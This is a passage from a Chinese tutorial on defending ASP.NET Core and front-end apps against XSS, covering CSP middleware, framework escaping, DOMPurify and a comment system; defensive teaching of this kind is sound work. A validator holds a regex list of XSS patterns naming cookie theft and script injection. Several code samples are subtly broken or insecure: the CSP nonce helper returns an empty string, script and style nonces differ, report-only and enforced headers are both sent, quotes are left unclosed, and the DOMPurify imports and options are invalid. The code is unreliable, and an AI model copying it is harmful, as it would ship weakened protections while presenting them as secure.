    // ✅ 安全写法3：使用专门的Tag Helper
    <js-variable name="config" value="@Model.Config" />
</script>
```

---

## CSP内容安全策略配置

### 什么是CSP？

**Content Security Policy（CSP）**是一种HTTP安全响应头，通过指定哪些动态资源可以加载来减少XSS攻击的风险。它是目前最有效的XSS防御措施之一。

### CSP工作原理



### ASP.NET Core CSP中间件实现

```csharp
/// <summary>
/// CSP（Content Security Policy）中间件
/// 提供灵活的内容安全策略配置
/// </summary>
public class CspMiddleware
{
    private readonly RequestDelegate _next;
    private readonly CspOptions _options;
    private readonly ILogger<CspMiddleware> _logger;

    public CspMiddleware(
        RequestDelegate next,
        IOptions<CspOptions> options,
        ILogger<CspMiddleware> logger)
    {
        _next = next;
        _options = options.Value;
        _logger = logger;
    }

    public async Task InvokeAsync(HttpContext context)
    {
        // 构建CSP头
        var cspHeader = BuildCspHeader(context);

        if (!string.IsNullOrEmpty(cspHeader))
        {
            context.Response.Headers.ContentSecurityPolicy = cspHeader;

            // 同时设置report-only头（用于测试阶段）
            if (_options.ReportOnly)
            {
                context.Response.Headers[
                    "Content-Security-Policy-Report-Only"] = cspHeader;
            }
        }

        await _next(context);
    }

    private string BuildCspHeader(HttpContext context)
    {
        var directives = new List<string>();

        // default-src：默认策略（其他指令的fallback）
        AddDirective(directives, "default-src", _options.DefaultSrc);

        // script-src：JavaScript来源控制（最重要！）
        AddDirective(directives, "script-src", BuildScriptSrc());

        // style-src：CSS来源控制
        AddDirective(directives, "style-src", BuildStyleSrc());

        // img-src：图片来源控制
        AddDirective(directives, "img-src", _options.ImageSrc);

        // connect-src：API请求来源（AJAX/Fetch/WebSocket）
        AddDirective(directives, "connect-src", _options.ConnectSrc);

        // font-src：字体来源
        AddDirective(directives, "font-src", _options.FontSrc);

        // frame-src / child-src：iframe来源
        AddDirective(directives, "frame-src", _options.FrameSrc);

        // object-src：插件（Flash等）- 通常禁止
        AddDirective(directives, "object-src", _options.ObjectSrc ?? "'none'");

        // media-src：音视频来源
        AddDirective(directives, "media-src", _options.MediaSrc);

        // base-uri：限制<base>标签
        AddDirective(directives, "base-uri", _options.BaseUri ?? "'self'");

        // form-action：限制表单提交目标
        AddDirective(directives, "form-action", _options.FormAction ?? "'self'");

        // frame-ancestors：防止页面被嵌入iframe（点击劫持防护）
        AddDirective(directives, "frame-ancestors",
            _options.FrameAncestors ?? "'none'");

        // report-uri：违规报告端点
        if (!string.IsNullOrEmpty(_options.ReportUri))
        {
            directives.Add($"report-uri {_options.ReportUri}");
        }

        return string.Join("; ", directives);
    }

    private void AddDirective(List<string> directives, string name, string? value)
    {
        if (!string.IsNullOrEmpty(value))
        {
            directives.Add($"{name} {value}");
        }
    }

    private string BuildScriptSrc()
    {
        var sources = new List<string>(_options.ScriptSrc ?? Array.Empty<string>());

        // 根据是否使用nonce添加相应标记
        if (_options.UseNonce)
        {
            // 为每个请求生成唯一的nonce值
            var nonce = Guid.NewGuid().ToString("N");
            sources.Add($"'nonce-{nonce}'");

            // 将nonce存入HttpContext供视图使用
            // （需要在中间件之前注入一个服务来传递这个值）
        }

        // 是否允许内联脚本（开发环境可能需要）
        if (_options.AllowUnsafeInline)
        {
            sources.Add("'unsafe-inline'");
        }

        // 是否允许eval（极度危险，尽量避免）
        if (_options.AllowUnsafeEval)
        {
            sources.Add("'unsafe-eval'");
        }

        return string.Join(" ", sources);
    }

    private string BuildStyleSrc()
    {
        var sources = new List<string>(_options.StyleSrc ?? Array.Empty<string>());

        if (_options.UseNonce)
        {
            sources.Add($"'nonce-{GetNonce()}'");
        }

        if (_options.AllowUnsafeInline)
        {
            sources.Add("'unsafe-inline'");
        }

        return string.Join(" ", sources);
    }

    private string GetNonce()
    {
        // 从HttpContext Items中获取当前请求的nonce
        // 这需要在中间件初始化时设置
        return "";
    }
}

// CSP配置选项
public class CspOptions
{
    // 默认资源策略
    public string? DefaultSrc { get; set; } = "'self'";

    // JavaScript来源
    public string[]? ScriptSrc { get; set; }
    public bool UseNonce { get; set; } = true;       // 推荐使用nonce
    public bool AllowUnsafeInline { get; set; } = false; // 生产环境应禁用
    public bool AllowUnsafeEval { get; set; } = false;   // 强烈建议禁用

    // CSS来源
    public string[]? StyleSrc { get; set; }

    // 图片来源
    public string? ImageSrc { get; set; } = "'self' data: https:";

    // 连接来源（API调用）
    public string? ConnectSrc { get; set; } = "'self' https://api.example.com";

    // 字体来源
    public string? FontSrc { get; set; } = "'self' https://fonts.gstatic.com";

    // iframe来源
    public string? FrameSrc { get; set; } = "'none'";

    // 对象/插件来源
    public string? ObjectSrc { get; set; } = "'none'";

    // 音视频来源
    public string? MediaSrc { get; set; }

    // 违规报告URI
    public string? ReportUri { get; set; } = "/api/security/csp-report";
    public bool ReportOnly { get; set; } = false; // 仅报告模式（测试用）

    // 其他安全指令
    public string? BaseUri { get; set; }
    public string? FormAction { get; set; }
    public string? FrameAncestors { get; set; }
}
```

### Program.cs中的CSP配置

```csharp
// Program.cs - CSP配置
var builder = WebApplication.CreateBuilder(args);

// 配置CSP选项
builder.Services.Configure<CspOptions>(builder.Configuration.GetSection("Csp"));

// 注册CSP中间件
builder.Services.AddSingleton<CspMiddleware>();

var app = builder.Build();

if (app.Environment.IsDevelopment())
{
    // 开发环境：宽松的CSP + Report-Only模式
    app.UseMiddleware<CspMiddleware>();
    // 或使用NWebSec库（推荐生产环境）
}
else
{
    // 生产环境：严格的CSP
    app.UseMiddleware<CspMiddleware>();
}

app.Run();
```

```json
// appsettings.Production.json
{
  "Csp": {
    "DefaultSrc": "'self'",
    "ScriptSrc": [
      "'self'",
      "https://cdn.example.com"
    ],
    "StyleSrc": [
      "'self'",
      "https://fonts.googleapis.com",
      "'unsafe-inline" // 如必须支持内联样式
    ],
    "ImageSrc": "'self' data: https: blob:",
    "ConnectSrc": "'self' https://api.example.com wss://socket.example.com",
    "FontSrc": "'self' https://fonts.gstatic.com",
    "FrameSrc": "'none'",
    "ObjectSrc": "'none'",
    "ReportUri": "/api/security/csp-violation",
    "UseNonce": true,
    "AllowUnsafeInline": false,
    "AllowUnsafeEval": false
  }
}
```

### CSP违规报告收集

```csharp
/// <summary>
/// CSP违规报告接收端点
/// </summary>
[ApiController]
[Route("api/security")]
public class SecurityController : ControllerBase
{
    private readonly ISecurityEventLogger _eventLogger;
    private readonly ILogger<SecurityController> _logger;

    [HttpPost("csp-violation")]
    [IgnoreAntiforgeryToken] // 报告端点不需要CSRF保护
    public async Task ReceiveCspViolationReport([FromBody] CspViolationReport report)
    {
        // 记录CSP违规
        await _eventLogger.LogAsync(
            SecurityEventType.CspViolation,
            HttpContext.User?.Identity?.Name ?? "anonymous",
            $"CSP违规：{report.ViolatedDirective} - {report.BlockedUri}",
            context: HttpContext,
            metadata: new Dictionary<string, object>
            {
                ["DocumentUri"] = report.DocumentUri,
                ["BlockedUri"] = report.BlockedUri,
                ["ViolatedDirective"] = report.ViolatedDirective,
                ["SourceFile"] = report.SourceFile,
                ["LineNumber"] = report.LineNumber,
                ["ColumnNumber"] = report.ColumnNumber
            });

        // 分析违规严重性
        var severity = AssessSeverity(report);

        if (severity == Severity.High || severity == Severity.Critical)
        {
            // 高危违规立即告警
            _logger.LogCritical(
                "高危CSP违规！文档：{Document}，阻止的资源：{Blocked}，违反的策略：{Directive}",
                report.DocumentUri, report.BlockedUri, report.ViolatedDirective);
        }

        return Ok();
    }

    private Severity AssessSeverity(CspViolationReport report)
    {
        // script-src违规通常是高危
        if (report.ViolatedDirective?.Contains("script") == true)
            return Severity.Critical;

        // style-src违规中等
        if (report.ViolatedDirective?.Contains("style") == true)
            return Severity.Medium;

        // 其他违规低危
        return Severity.Low;
    }
}

// CSP报告数据模型
public class CspViolationReport
{
    public DateTime Timestamp { get; set; }
    public string? DocumentUri { get; set; }
    public string? Referrer { get; set; }
    public string? BlockedUri { get; set; }
    public string? ViolatedDirective { get; set; }
    public string? EffectiveDirective { get; set; }
    public string? OriginalPolicy { get; set; }
    public string? SourceFile { get; set; }
    public int LineNumber { get; set; }
    public int ColumnNumber { get; set; }
    public string? StatusCode { get; set; }
    public string? ScriptSample { get; set; }
}
```

---

## 前端框架中的XSS防护

### Vue.js中的XSS防护

```vue
<!-- Vue组件 - XSS防护最佳实践 -->

<template>
  <div class="secure-component">
    <!-- ✅ 安全：Mustache语法自动转义 -->
    <p>{{ userContent }}</p>

    <!-- ✅ 安全：v-text指令 -->
    <p v-text="userContent"></p>

    <!-- ❌ 危险：v-html指令 - 只有确信内容安全时才使用 -->
    <!-- <div v-html="sanitizedContent"></div> -->

    <!-- 如果必须使用v-html，先进行消毒 -->
    <div v-html="safeHtml"></div>

    <!-- 绑定属性也是安全的 -->
    

    <!-- ✅ 安全：动态组件名来自白名单 -->
    <component :is="currentComponent" />
  </div>
</template>

<script>
// 安装DOMPurify用于v-html内容的消毒
import DOMPurify from 'dompurify'

export default {
  props: {
    userContent: {
      type: String,
      required: true
    },
    rawHtml: {
      type: String,
      default: ''
    }
  },

  computed: {
    // 对v-html内容进行消毒
    safeHtml() {
      if (!this.rawHtml) return ''
      // 使用DOMPurify进行HTML消毒
      return DOMPurify.sanitize(this.rawHtml, {
        ALLOWED_TAGS: ['p', 'br', 'strong', 'em', 'u', 'ul', 'ol', 'li', 'a'],
        ALLOWED_ATTR: ['href', 'target', 'rel']
      })
    }
  },

  methods: {
    // 安全地更新DOM
    updateContent(newContent) {
      // ✅ 安全：通过响应式数据更新（Vue自动处理转义）
      this.userContent = newContent
    },

    // 如果需要直接操作DOM
    directDomUpdate(content) {
      // ❌ 危险：不要这样做
      // document.getElementById('output').innerHTML = content

      // ✅ 安全：使用textContent
      document.getElementById('output').textContent = content

      // 或者使用Vue的方式
      this.$refs.output.textContent = content
    }
  }
}
</script>
```

### React中的XSS防护

```jsx
// React组件 - XSS防护最佳实践
import React, { useMemo } from 'react';
import DOMPurify from 'dompurify';

function SecureComponent({ userInput, richContent }) {
  // ✅ 安全：JSX中的表达式自动转义
  return (
    <div className="secure-component">
      {/* 自动转义 */}
      <p>{userInput}</p>

      {/* 属性绑定也是安全的 */}
      <input defaultValue={userInput} />

      {/* 如果必须渲染HTML，使用dangerouslySetInnerHTML + DOMPurify */}
      {useMemo(() => {
        if (!richContent) return null;
        const clean = DOMPurify.sanitize(richContent, {
          ALLOWED_TAGS: ['b', 'i', 'em', 'strong', 'a', 'p', 'br', 'ul', 'ol', 'li'],
          ALLOWED_ATTR: ['href', 'target', 'rel']
        });
        return <div dangerouslySetInnerHTML={{ __html: clean }} />;
      }, [richContent])}

      {/* ✅ 安全：列表渲染 */}
      {items.map(item => (
        <span key={item.id}>{item.name}</span>
      ))}
    </div>
  );
}

// 自定义Hook封装安全的HTML渲染
function useSanitizedHtml(dirtyHtml) {
  return useMemo(() => {
    if (!dirtyHtml) return '';
    return DOMPurify.sanitize(dirtyHtml, {
      FORBID_TAGS: ['script', 'iframe', 'object', 'embed', 'form'],
      FORBID_ATTR: ['onerror', 'onclick', 'onload', 'onmouseover']
    });
  }, [dirtyHtml]);
}

// 使用Hook
function RichTextViewer({ content }) {
  const sanitizedContent = useSanitizedHtml(content);

  return (
    <div
      dangerouslySetInnerHTML={{ __html: sanitizedContent }}
      className="rich-text-content"
    />
  );
}
```

### Angular中的XSS防护

```typescript
// Angular - 默认启用DomSanitizer
import { DomSanitizer, SafeHtml } from '@angular/platform-browser';
import { Component, Input } from '@angular/core';

@Component({
  selector: 'app-secure-display',
  template: `
    <!-- ✅ 安全：插值表达式自动转义 -->
    <p>{{ unsafeContent }}</p>

    <!-- ✅ 安全：属性绑定自动转义 -->
    <div [innerText]="unsafeContent"></div>

    <!-- ⚠️ 需要谨慎：使用innerHTML时必须经过消毒 -->
    <div [innerHTML]="safeContent"></div>
  `
})
export class SecureDisplayComponent implements OnInit {
  @Input() unsafeContent: string = '';
  safeContent: SafeHtml = '';

  constructor(private sanitizer: DomSanitizer) {}

  ngOnInit(): void {
    // 使用Angular内置的消毒方法
    this.safeContent = this.sanitizer.bypassSecurityTrustHtml(
      this.sanitizeHtml(this.unsafeContent)
    );
  }

  private sanitizeHtml(html: string): string {
    // 这里可以使用DOMPurify或其他消毒库
    // 或者实现自己的白名单逻辑
    return DOMPurify.sanitize(html, {
      ALLOWED_TAGS: ['p', 'br', 'strong', 'em', 'u'],
      ALLOWED_ATTR: []
    });
  }
}

// 自定义管道用于模板中消毒
import { Pipe, PipeTransform } from '@angular/core';
import { DomSanitizer, SafeHtml } from '@angular/platform-browser';
import DOMPurify from 'dompurify';

@Pipe({
  name: 'safeHtml'
})
export class SafeHtmlPipe implements PipeTransform {
  constructor(private sanitizer: DomSanitizer) {}

  transform(value: string): SafeHtml {
    if (!value) return '';
    const clean = DOMPurify.sanitize(value, {
      ALLOWED_TAGS: ['p', 'br', 'strong', 'em', 'u', 'ol', 'ul', 'li', 'a'],
      ALLOWED_ATTR: ['href', 'target']
    });
    return this.sanitizer.bypassSecurityTrustHtml(clean);
  }
}

// 使用管道
template: `
  <div [innerHTML]="userContent | safeHtml"></div>
`
```

---

## DOM Purify库集成

### 什么是DOMPurify？

**DOMPurify**是一个快速、容错性强的XSS sanitizer，专门用于HTML、MathML和SVG的消毒。它被广泛认为是目前最好的客户端HTML消毒库之一。

### 在ASP.NET Core项目中集成DOMPurify

#### 服务端集成（Node.js兼容）

```csharp
/// <summary>
/// DOMPurify服务端包装器
/// 通过Node.js进程或WASM版本提供服务端HTML消毒能力
/// </summary>
public class DomPurifySanitizer : IHtmlSanitizer
{
    private readonly ILogger<DomPurifySanitizer> _logger;
    private readonly JSEngine _jsEngine; // 假设使用Jint或类似引擎

    public DomPurifySanitizer(ILogger<DomPurifySanitizer> logger)
    {
        _logger = logger;
        // 初始化JavaScript引擎
        InitializeJsEngine();
    }

    public string Sanitize(string html)
    {
        if (string.IsNullOrWhiteSpace(html))
            return string.Empty;

        try
        {
            // 调用DOMPurify进行消毒
            var result = ExecuteDomPurify(html);

            // 二次验证
            if (ContainsScriptTags(result))
            {
                _logger.LogWarning("DOMPurify消毒后仍检测到可疑内容");
                return StripAllTags(html);
            }

            return result;
        }
        catch (Exception ex)
        {
            _logger.LogError(ex, "DOMPurify消毒失败，降级为纯文本");
            return System.Net.WebUtility.HtmlEncode(html);
        }
    }

    private string ExecuteDomPurify(string dirtyHtml)
    {
        // 使用Jint执行DOMPurify
        var jsCode = @"
            const DOMPurify = require('dompurify');
            const result = DOMPurify.sanitize(dirtyHtml, {
                ALLOWED_TAGS: allowedTags,
                ALLOWED_ATTR: allowedAttrs,
                FORBID_TAGS: forbiddenTags,
                ADD_ATTR: addAttr
            });
            result;
        ";

        // 执行并返回结果
        return _jsEngine.Execute(jsCode, new { dirtyHtml }).ToString();
    }
}
```

#### 前端集成（推荐）

```bash
# 安装DOMPurify
npm install dompurify
# 或
yarn add dompurify
```

```typescript
// src/utils/sanitizer.ts
import DOMPurify from 'dompurify';
import { parse, serialize } from 'dompurify';

// DOMPurify配置接口
interface SanitizeConfig {
  allowedTags?: string[];
  allowedAttrs?: string[];
  forbiddenTags?: string[];
  forbiddenAttrs?: string[];
}

// 默认严格配置（适用于大多数场景）
const STRICT_CONFIG: SanitizeConfig = {
  allowedTags: [
    'p', 'br', 'strong', 'b', 'em', 'i', 'u', 's',
    'h1', 'h2', 'h3', 'h4', 'h5', 'h6',
    'ul', 'ol', 'li',
    'blockquote', 'pre', 'code',
    'a', 'img',
    'table', 'thead', 'tbody', 'tr', 'th', 'td',
    'hr'
  ],
  allowedAttrs: [
    'href', 'target', 'rel',  // 链接
    'src', 'alt',             // 图片
    'class', 'id',             // 样式
    'colspan', 'rowspan'       // 表格
  ],
  forbiddenTags: [
    'script', 'iframe', 'object', 'embed',
    'applet', 'form', 'input', 'textarea',
    'select', 'button', 'meta', 'link',
    'base', 'style'
  ],
  forbiddenAttrs: [
    'on*',  // 所有事件处理器
    'style', // 内联样式（根据需求调整）
    'xmlns', 'action', 'formaction'
  ]
};

/**
 * 消毒HTML字符串
 * @param dirty 待消毒的HTML
 * @param config 自定义配置（可选）
 * @returns 消毒后的安全HTML
 */
export function sanitizeHtml(dirty: string, config?: Partial<SanitizeConfig>): string {
  if (!dirty) return '';

  const finalConfig = { ...STRICT_CONFIG, ...config };

  try {
    const result = DOMPurify.sanitize(dirty, {
      ALLOWED_TAGS: finalConfig.allowedTags,
      ALLOWED_ATTR: finalConfig.allowedAttrs,
      FORBID_TAGS: finalConfig.forbiddenTags,
      FORBID_ATTR: finalConfig.forbiddenAttrs,

      // 安全相关配置
      KEEP_CONTENT: true,           // 保留被移除标签的内容
      ALLOW_DATA_ATTR: false,       // 不允许data-*属性
      USE_PROFILES: { html: true }, // 使用HTML配置文件
      RETURN_DOM: false,            // 返回字符串而非DOM
      WHOLE_DOCUMENT: false,        // 不需要完整HTML文档
      SANITIZE_DOM: false,          // 不消毒已有DOM（性能考虑）

      // Hook：自定义处理
      uponSanitizeElement: (node, data) => {
        // 可以在这里添加额外的验证逻辑
      },
      uponSanitizeAttribute: (node, data) => {
        // 验证属性值的合法性
        if (data.attrName === 'href') {
          // 验证URL协议
          if (!isValidUrl(data.attrValue)) {
            data.keepAttr = false;
          }
        }
      }
    });

    return result;
  } catch (error) {
    console.error('DOMPurify消毒失败:', error);
    // 降级：返回纯文本
    return escapeHtml(dirty);
  }
}

/**
 * 验证URL是否安全
 */
function isValidUrl(url: string): boolean {
  try {
    const parsed = new URL(url);
    return ['http:', 'https:', 'mailto:', 'tel:].includes(parsed.protocol);
  } catch {
    return false;
  }
}

/**
 * 简单的HTML转义（备用方案）
 */
function escapeHtml(str: string): string {
  return str
    .replace(/&/g, '&amp;')
    .replace(/</g, '&lt;')
    .replace(/>/g, '&gt;')
    .replace(/"/g, '&quot;')
    .replace(/'/g, '&#039;');
}

export default sanitizeHtml;
```

### DOMPurify高级用法

```typescript
// 高级配置：支持Markdown渲染后的消毒
import { marked } from 'marked';
import DOMPurify from 'dompurify';

/**
 * 安全地渲染Markdown为HTML
 */
export function renderSafeMarkdown(markdown: string): string {
  // 1. 将Markdown转换为HTML
  const rawHtml = marked.parse(markdown);

  // 2. 使用DOMPurify消毒
  const safeHtml = DOMPurify.sanitize(rawHtml, {
    // Markdown渲染后允许的标签
    ALLOWED_TAGS: [
      'p', 'br', 'strong', 'em', 'h1', 'h2', 'h3', 'h4', 'h5', 'h6',
      'ul', 'ol', 'li', 'blockquote', 'pre', 'code', 'a', 'img',
      'hr', 'table', 'thead', 'tbody', 'tr', 'th', 'td'
    ],

    // Hook：处理代码块
    uponSanitizeElement: (node, data) => {
      // 保留代码块的原始内容
      if (data.tagName === 'PRE' || data.tagName === 'CODE') {
        // 不对code/pre内的内容进行进一步处理
      }
    },

    // Hook：处理图片
    uponSanitizeAttribute: (node, data) => {
      if (data.attrName === 'src' && node.nodeName === 'IMG') {
        // 只允许HTTPS图片和数据URI
        const src = data.attrValue;
        if (!src.startsWith('https://') && !src.startsWith('data:image/')) {
          data.keepAttr = false;
        }
      }
    }
  });

  return safeHtml;
}

/**
 * 创建带Hook的DOMPurify实例
 * 用于特殊场景的自定义处理
 */
export function createCustomSanitizer(customRules?: {
  urlValidator?: (url: string) => boolean;
  cssFilter?: (css: string) => string;
}) {
  // 添加自定义Hook
  DOMPurify.addHook('uponSanitizeAttribute', (node, data) => {
    // URL验证
    if (customRules?.urlValidator &&
        ['href', 'src', 'action', 'poster'].includes(data.attrName)) {
      if (!customRules.urlValidator(data.attrValue)) {
        data.keepAttr = false;
      }
    }

    // CSS过滤器
    if (data.attrName === 'style' && customRules?.cssFilter) {
      data.attrValue = customRules.cssFilter(data.attrValue);
    }
  });

  return DOMPurify;
}
```

---

## 完整实战：评论系统XSS防护

### 项目架构



### 完整代码实现

#### 1. 数据模型

```csharp
// Entities/Comment.cs
namespace SecureApp.Entities;

public class Comment
{
    public int Id { get; set; }
    public int ArticleId { get; set; }
    public string UserId { get; set; } = string.Empty;

    /// <summary>
    /// 原始内容（用于编辑时回显，绝不直接输出）
    /// </summary>
    public string RawContent { get; set; } = string.Empty;

    /// <summary>
    /// 消毒后的安全内容（用于显示）
    /// </summary>
    public string SanitizedContent { get; set; } = string.Empty;

    /// <summary>
    /// 内容类型：纯文本/Markdown/富文本
    /// </summary>
    public ContentType ContentType { get; set; } = ContentType.PlainText;

    public bool IsApproved { get; set; }
    public int LikeCount { get; set; }
    public DateTime CreatedAt { get; set; }
    public DateTime? UpdatedAt { get; set; }

    // 导航属性
    public ApplicationUser User { get; set; } = null!;
    public Article Article { get; set; } = null!;
}

public enum ContentType
{
    PlainText = 0,
    Markdown = 1,
    RichText = 2
}
```

#### 2. DTO与验证

```csharp
// DTOs/CreateCommentRequest.cs
using FluentValidation;

namespace SecureApp.DTOs;

public class CreateCommentRequest
{
    /// <summary>
    /// 文章ID
    /// </summary>
    public int ArticleId { get; set; }

    /// <summary>
    /// 评论内容
    /// </summary>
    public string Content { get; set; } = string.Empty;

    /// <summary>
    /// 内容类型
    /// </summary>
    public ContentType ContentType { get; set; } = ContentType.PlainText;

    /// <summary>
    /// 父评论ID（回复功能）
    /// </summary>
    public int? ParentId { get; set; }
}

/// <summary>
/// 评论请求验证器
/// </summary>
public class CreateCommentRequestValidator : AbstractValidator<CreateCommentRequest>
{
    public CreateCommentRequestValidator()
    {
        RuleFor(x => x.ArticleId)
            .GreaterThan(0)
            .WithMessage("文章ID无效");

        RuleFor(x => x.Content)
            .NotEmpty()
            .WithMessage("评论内容不能为空")
            .MinimumLength(2)
            .WithMessage("评论内容至少2个字符")
            .MaximumLength(10000)
            .WithMessage("评论内容不能超过10000个字符")
            .Must(BeFreeOfXssPatterns)
            .WithMessage("评论内容包含不允许的字符");

        RuleFor(x => x.ContentType)
            .IsInEnum()
            .WithMessage("无效的内容类型");
    }

    /// <summary>
    /// 检测明显的XSS攻击模式
    /// </summary>
    private bool BeFreeOfXssPatterns(string content)
    {
        if (string.IsNullOrWhiteSpace(content)) return true;

        var dangerousPatterns = new[]
        {
            @"<script[\s\S]*?</script>",
            @"javascript\s*:",
            @"vbscript\s*:",
            @"on\w+\s*=",
            @"expression\s*\(",
            @"url\s*\(\s*['""]?\s*javascript:",
            @"import\s",
            @"document\.cookie",
            @"document\.write",
            @"eval\s*\(",
            @"setTimeout\s*\(",
            @"setInterval\s*\("
        };

        foreach (var pattern in dangerousPatterns)
        {
            if (Regex.IsMatch(content, pattern, RegexOptions.IgnoreCase | RegexOptions.Multiline))
                return false;
        }

        return true;
    }
}
```

#### 3. 评论服务

```csharp
// Services/CommentService.cs
namespace SecureApp.Services;

public interface ICommentService
{
    Task<CommentDto> CreateCommentAsync(CreateCommentRequest request, string userId);
    Task<PagedResult<CommentDto>> GetCommentsAsync(int articleId, PaginationParams pagination);
    Task<CommentDto?> UpdateCommentAsync(int commentId, UpdateCommentRequest request, string userId);
    Task DeleteCommentAsync(int commentId, string userId);
}

public class CommentService : ICommentService
{
    private readonly ApplicationDbContext _context;
    private readonly IHtmlSanitizer _htmlSanitizer;
    private readonly IMarkdownParser _markdownParser;
    private readonly ILogger<CommentService> _logger;
    private readonly ISecurityEventLogger _securityLogger;

    public CommentService(
        ApplicationDbContext context,
        IHtmlSanitizer htmlSanitizer,
        IMarkdownParser markdownParser,
        ILogger<CommentService> logger,
        ISecurityEventLogger securityLogger)
    {
        _context = context;
        _htmlSanitizer = htmlSanitizer;
        _markdownParser = markdownParser;
        _logger = logger;
        _securityLogger = securityLogger;
    }

    public async Task<CommentDto> CreateCommentAsync(
        CreateCommentRequest request, string userId)
    {
        // 1. 验证文章是否存在
        var article = await _context.Articles.FindAsync(request.ArticleId);
        if (article == null)
            throw new NotFoundException("文章不存在");

        // 2. 处理内容（根据类型选择不同的消毒策略）
        string rawContent = request.Content;
        string sanitizedContent;

        switch (request.ContentType)
        {
            case ContentType.Markdown:
                // 先解析Markdown再消毒
                var markdownHtml = _markdownParser.Parse(rawContent);
                sanitizedContent = _htmlSanitizer.Sanitize(markdownHtml);
                break;

            case ContentType.RichText:
                // 直接消毒富文本HTML
                sanitizedContent = _htmlSanitizer.Sanitize(rawContent);
                break;

            case ContentType.PlainText:
            default:
                // 纯文本：先HTML编码再存储
                sanitizedContent = System.Net.WebUtility.HtmlEncode(rawContent);
                break;
        }

        // 3. 检查消毒前后是否有显著差异（可能的攻击尝试）
        if (rawContent.Length > 100 &&
            Math.Abs(rawContent.Length - sanitizedContent.Length) > rawContent.Length * 0.5)
        {
            // 大量内容被移除，可能是复杂的XSS payload
            await _securityLogger.LogAsync(
                SecurityEventType.SuspiciousApiCall,
                userId,
                $"可疑评论内容：原文长度={rawContent.Length}，消毒后长度={sanitizedContent.Length}"
            );

            _logger.LogWarning(
                "用户 {UserId} 提交的评论内容有大量HTML被过滤",
                userId);
        }

        // 4. 创建评论实体
        var comment = new Comment
        {
            ArticleId = request.ArticleId,
            UserId = userId,
            RawContent = rawContent,
            SanitizedContent = sanitizedContent,
            ContentType = request.ContentType,
            IsApproved = !article.RequireModeration, // 根据文章设置决定是否需要审核
            CreatedAt = DateTime.UtcNow
        };

        _context.Comments.Add(comment);
        await _context.SaveChangesAsync();

        _logger.LogInformation(
            "用户 {UserId} 成功发表评论 {CommentId}",
            userId, comment.Id);

        // 5. 返回DTO（只包含安全的数据）
        return MapToDto(comment);
    }

    public async Task<PagedResult<CommentDto>> GetCommentsAsync(
        int articleId, PaginationParams pagination)
    {
        var query = _context.Comments
            .Include(c => c.User)
            .Where(c => c.ArticleId == articleId && c.IsApproved)
            .OrderByDescending(c => c.CreatedAt);

        var totalCount = await query.CountAsync();
        var items = await query
            .Skip((pagination.Page - 1) * pagination.PageSize)
            .Take(pagination.PageSize)
            .Select(c => new CommentDto
            {
                Id = c.Id,
                // ⚠️ 重要：始终返回消毒后的内容！
                Content = c.SanitizedContent,
                ContentType = c.ContentType,
                Author = new UserSummaryDto
                {
                    Id = c.User.Id,
                    Username = c.User.UserName,
                    AvatarUrl = c.User.AvatarUrl
                },
                LikeCount = c.LikeCount,
                CreatedAt = c.CreatedAt
            })
            .ToListAsync();

        return new PagedResult<CommentDto>(items, totalCount, pagination.Page, pagination.PageSize);
    }

    private CommentDto MapToDto(Comment comment)
    {
        return new CommentDto
        {
            Id = comment.Id,
            Content = comment.SanitizedContent, // 始终返回消毒后的内容
            ContentType = comment.ContentType,
            Author = new UserSummaryDto
            {
                Id = comment.User.Id,
                Username = comment.User.UserName,
                AvatarUrl = comment.User.AvatarUrl
            },
            LikeCount = comment.LikeCount,
            IsOwner = true, // 由控制器设置
            CreatedAt = comment.CreatedAt
        };
    }
}
```

#### 4. 控制器

```csharp
// Controllers/CommentsController.cs
using Microsoft.AspNetCore.Mvc;
using Microsoft.AspNetCore.Authorization;
using SecureApp.DTOs;
using SecureApp.Services;

namespace SecureApp.Controllers;

[ApiController]
[Route("api/[controller]")]
public class CommentsController : ControllerBase
{
    private readonly ICommentService _commentService;
    private readonly ILogger<CommentsController> _logger;

    public CommentsController(
        ICommentService commentService,
        ILogger<CommentsController> logger)
    {
        _commentService = commentService;
        _logger = logger;
    }

    /// <summary>
    /// 获取文章评论列表
    /// </summary>
    [HttpGet("articles/{articleId}")]
    [AllowAnonymous] // 评论通常可以公开查看
    public async Task<ActionResult<PagedResult<CommentDto>>> GetComments(
        int articleId,
        [FromQuery] PaginationParams pagination)
    {
        var result = await _commentService.GetCommentsAsync(articleId, pagination);
        return Ok(result);
    }

    /// <summary>
    /// 发表评论
    /// </summary>
    [HttpPost]
    [Authorize]
    [ProducesResponseType(typeof(CommentDto), StatusCodes.Status201Created)]
    [ProducesResponseType(typeof(ValidationProblemDetails), StatusCodes.Status400BadRequest)]
    public async Task<ActionResult<CommentDto>> CreateComment(
        [FromBody] CreateCommentRequest request)
    {
        var userId = User.FindFirstValue(ClaimTypes.NameIdentifier);

        try
        {
            var comment = await _commentService.CreateCommentAsync(request, userId!);
            return CreatedAtAction(nameof(GetComment), new { id = comment.Id }, comment);
        }
        catch (ValidationException ex)
        {
            return BadRequest(ex.Message);
        }
    }

    /// <summary>
    /// 获取单条评论
    /// </summary>
    [HttpGet("{id:int}")]
    [AllowAnonymous]
    public async Task<ActionResult<CommentDto>> GetComment(int id)
    {
        var comment = await _commentService.GetByIdAsync(id);
        if (comment == null)
            return NotFound();

        return Ok(comment);
    }
}
```

#### 5. 前端安全渲染组件

```tsx
// components/SecureComment.tsx
import React, { memo, useMemo } from 'react';
import DOMPurify from 'dompurify';
import './SecureComment.css';

interface SecureCommentProps {
  content: string;
  contentType: 'text' | 'markdown' | 'html';
  className?: string;
}

/**
 * 安全的评论内容渲染组件
 * 双重保障：服务端已消毒 + 客户端再次消毒
 */
const SecureComment: React.FC<SecureCommentProps> = memo(({
  content,
  contentType,
  className
}) => {
  // 使用useMemo确保只在content变化时重新计算
  const sanitizedContent = useMemo(() => {
    if (!content) return '';

    switch (contentType) {
      case 'html':
        // 富文本：使用DOMPurify消毒
        return DOMPurify.sanitize(content, {
          ALLOWED_TAGS: [
            'p', 'br', 'strong', 'b', 'em', 'i', 'u', 's',
            'h1', 'h2', 'h3', 'h4', 'h5', 'h6',
            'ul', 'ol', 'li', 'blockquote', 'pre', 'code',
            'a', 'img', 'hr', 'table', 'thead', 'tbody', 'tr', 'th', 'td'
          ],
          ALLOWED_ATTR: [
            'href', 'target', 'rel', 'src', 'alt',
            'class', 'colspan', 'rowspan'
          ]
        });

      case 'markdown':
        // Markdown：假设已由服务端转为HTML，再次消毒
        return DOMPurify.sanitize(content);

      case 'text':
      default:
        // 纯文本：直接显示（React自动转义）
        return content;
    }
  }, [content, contentType]);

  // 根据内容类型选择渲染方式
  if (contentType === 'text') {
    return (
      <div className={`comment-content ${className || ''}`}>
